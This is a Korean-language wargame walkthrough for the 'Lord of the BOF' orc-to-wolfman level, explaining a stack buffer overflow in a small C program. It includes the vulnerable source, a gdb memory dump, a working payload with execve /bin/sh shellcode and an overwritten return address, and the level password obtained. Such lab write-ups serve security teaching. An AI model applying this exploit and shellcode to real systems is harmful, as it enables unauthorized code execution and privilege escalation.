 ============================================================================================================
[lob] orc
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|


Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

    // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Memory Structure
============================================================================================================


스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte)
	SFP     (4byte)
	RET     (4byte)
	argc    (4byte)
	argv    (4byte)
	----------------
	HIGH    
	================

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./wolfman `python -c 'print "a"*47'`
    stack is still your friend.
    $ ./wolfman `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

gdb를 이용하여 argv가 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orc/wolfman1 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffae8       -1073743128

    (gdb) i reg $ebp
    ebp            0xbffffb08       -1073743096

    (gdb) x/100x $esp

	==========================================================================
	0xbffffae8:     0xbffffb08      0x400309cb      0x00000002      0xbffffb34
	0xbffffaf8:     0xbffffb40      0x40013868      0x00000002      0x08048450
	0xbffffb08:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffffb18:     0xbffffb34      0x08048390      0x0804861c      0x4000ae60
	0xbffffb28:     0xbffffb2c      0x40013e90      0x00000002      0xbffffc2e
	0xbffffb38:     0xbffffc43      0x00000000      0xbffffc74      0xbffffc96
	0xbffffb48:     0xbffffca0      0xbffffcae      0xbffffccd      0xbffffcd9
	0xbffffb58:     0xbffffcf2      0xbffffd0e      0xbffffd2d      0xbffffd38
	0xbffffb68:     0xbffffd46      0xbffffd88      0xbffffd97      0xbffffdac
	0xbffffb78:     0xbffffdbc      0xbffffdc5      0xbffffde3      0xbffffdee
	0xbffffb88:     0xbffffdff      0xbffffe0d      0xbffffe1c      0xbffffe24
	0xbffffb98:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffba8:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffbb8:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffbc8:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffbd8:     0x000001f8      0x0000000c      0x000001f8      0x0000000d
	0xbffffbe8:     0x000001f8      0x0000000e      0x000001f8      0x00000010
	0xbffffbf8:     0x0fabfbff      0x0000000f      0xbffffc29      0x00000000
	0xbffffc08:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffc28:     0x38366900      0x682f0036      0x2f656d6f      0x2f63726f
	0xbffffc38:     0x6f772f2e      0x616d666c      0x6100336e      0x61616161
	0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
                                                            ^ argv[1] = 0xbffffc53
	0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
	0xbffffc68:     0x61616161      0x61616161      0x00bf6161      0x5353454c
	==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./wolfman `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x43\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault

    $ ./wolfman `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x53\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀S▒▒▒

    bash$ whoami
    wolfman
    bash$ my-pass
    euid = 505
    love eyuna








